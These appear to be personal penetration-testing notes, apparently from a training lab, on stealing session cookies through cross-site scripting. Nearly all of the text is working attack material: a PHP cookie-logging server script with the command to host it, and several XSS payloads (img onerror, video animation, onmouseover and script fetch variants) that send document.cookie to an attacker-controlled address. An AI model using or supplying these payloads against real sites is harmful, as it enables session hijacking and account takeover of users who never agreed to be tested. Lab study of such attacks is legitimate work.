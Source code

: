 ___

```js
"><img src=x onerror=prompt(document.cookie)>
```

![[Pasted image 20241012104359.png]]
# Obtaining session cookies 

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

```bash
php -S <VPN/TUN Adapter IP>:8000
```

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

## Netcat

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```



